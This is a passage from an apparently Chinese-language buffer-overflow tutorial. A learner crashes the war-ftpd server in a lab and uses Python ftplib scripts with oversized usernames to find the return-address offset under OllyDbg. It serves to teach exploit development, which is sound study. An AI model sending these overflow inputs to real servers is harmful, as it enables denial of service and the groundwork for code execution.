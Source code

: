 ```
from ftplib import FTP
ftp = FTP('192.168.3.151')
ftp.login( 'A'*500,'ww') 
```

哈哈，一下子就成功了！warFTP 没有反应，挂掉了。如老师所说，有了一门语言的基础，对比学习另一门语言，是个很快的过程。

看来 500 个字节的用户名实现了溢出，但没有出错对话框弹出，所以要用 OllyDbg 来帮助定位。我先重新启动 warFtp，再用 Ollydbg 加载程序。如图 7-22 和图 7-23。

![](img/Q 版缓冲区溢出教程 226212.jpg)

![](img/Q 版缓冲区溢出教程 226214.jpg)

重新执行刚才的程序，这下 Ollydbg 截获了异常！41414141 不能执行，就是我们发送的字符串。如图 7-24。

![](img/Q 版缓冲区溢出教程 226274.jpg)

重启 warFTP，我发现只需用“Debug”菜单下的“Restart”就可重新启动并加载程序了，而且加的注释也不会丢失，如图 7-25。这下方便多了！

![](img/Q 版缓冲区溢出教程 226352.jpg)

一不小心就发现了一个小技巧，我暗自得意了一会儿，然后就考虑定位了。

经过这学期的学习，定位的方法我已经牢牢掌握了。首先定位百位，ABCDE 各占 100，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*100 + 'B'*100+'C'*100+'D'*100+'E'*100
ftp.login( s,'ww') 
```

Ollydbg 截获异常，如图 7－26。

![](img/Q 版缓冲区溢出教程 226579.jpg)

0x45454545 不能执行，0x45 是“E”，E－A＝4，即是 400 多的地方到达异常点。

百位是 4，再定位十位。先是 400 个 A，然后在 ABCD……各发 10 个，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*400 +'A'*10 + 'B'*10+'C'*10+'D'*10+'E'*10+'F'*10+'G'*10+'H'*10+'I'*10+'J'*10
ftp.login( s,'ww') 
```

这次是 49 到达返回点，如图 7－27。49－41＝8，就是 80 多。

![](img/Q 版缓冲区溢出教程 226860.jpg)

最后一次，定位个位。先是 480 个 A，然后是“'ABCDEFGHIJ'”，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*400 +'A'*80+ 'ABCDEFGHIJ'
ftp.login( s,'ww') 
```

